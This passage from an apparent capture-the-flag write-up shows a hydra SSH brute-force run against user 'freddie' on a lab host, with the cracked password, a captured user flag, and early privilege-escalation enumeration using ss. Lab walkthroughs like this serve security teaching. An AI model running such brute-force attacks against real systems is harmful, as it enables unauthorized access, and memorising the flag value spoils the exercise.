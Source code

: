 Now that we have a username (freddie), we fire up our favorite bruteforcing tool *hydra* using the hash file we generated earlier:<br><br>

```
hydra -l freddie -P md5.txt -vV grote ssh -I

Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-21 13:53:04
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 81705 login tries (l:1/p:81705), ~5107 tries per task
[DATA] attacking ssh://grote:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://freddie@172.16.250.96:22
[INFO] Successful, password authentication is supported by ssh://172.16.250.96:22
[ATTEMPT] target grote - login "freddie" - pass "61a4e3e60c063d1e472dd780f64e6cad" - 2243 of 81707 [child 10] (0/2)
[22][ssh] host: grote   login: freddie   password: 61a4e3e60c063d1e472dd780f64e6cad
[STATUS] attack finished for grote (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-21 14:17:20
```

We are able to login via SSH with **freddie** and the username *hydra* found, and quickly capture the **user.txt** flag:<br><br>

```
35A7EB682E33E89606102A883596A880
```

## Privilege escalation
<br>

*sudo* does not work, and we find nothing obvious when browsing around. Thinking maybe *netstat* will show something, it does not work either. *ss* worked, and shows us SMB is listening.<br><br>

```
ss -tunlp

Netid                State                 Recv-Q                Send-Q                                 Local Address:Port                                 Peer Address:Port                
udp                  UNCONN                0                     0                                     172.16.250.255:137                                       0.0.0.0:*                   
udp                  UNCONN                0                     0                                      172.16.250.96:137                                       0.0.0.0:*                   
udp                  UNCONN                0                     0                                            0.0.0.0:137                                       0.0.0.0:*                   
udp                  UNCONN                0                     0                                     172.16.250.255:138                                       0.0.0.0:*                   
udp                  UNCONN                0                     0                                      172.16.250.96:138                                       0.0.0.0:*                   
udp                  UNCONN                0                     0                                            0.0.0.0:138                                       0.0.0.0:*                   
udp                  UNCONN                0                     0                                            0.0.0.0:68                                        0.0.0.0:*                   
tcp                  LISTEN                0                     80                                         127.0.0.1:3306                                      0.0.0.0:*                   
```